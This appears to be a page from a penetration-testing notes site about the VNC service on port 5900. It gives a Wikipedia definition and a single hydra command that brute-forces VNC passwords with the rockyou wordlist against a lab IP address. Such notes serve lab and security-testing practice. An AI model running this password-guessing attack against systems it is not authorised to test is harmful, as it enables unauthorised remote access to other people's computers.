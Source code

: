 ```yaml
---
layout: default
title: VNC (5900)
nav_order: 1
parent: Services
permalink: /docs/services/vnc
---
```


# VNC

> Virtual Network Computing is a graphical desktop-sharing system that uses the Remote Frame Buffer protocol to remotely control another computer. It transmits the keyboard and mouse input from one computer to another, relaying the graphical-screen updates, over a network. - Wikipedia

## Bruteforcing
```
hydra -s 5900 -P /usr/share/wordlists/rockyou.txt -t 16 10.10.175.32 vnc
```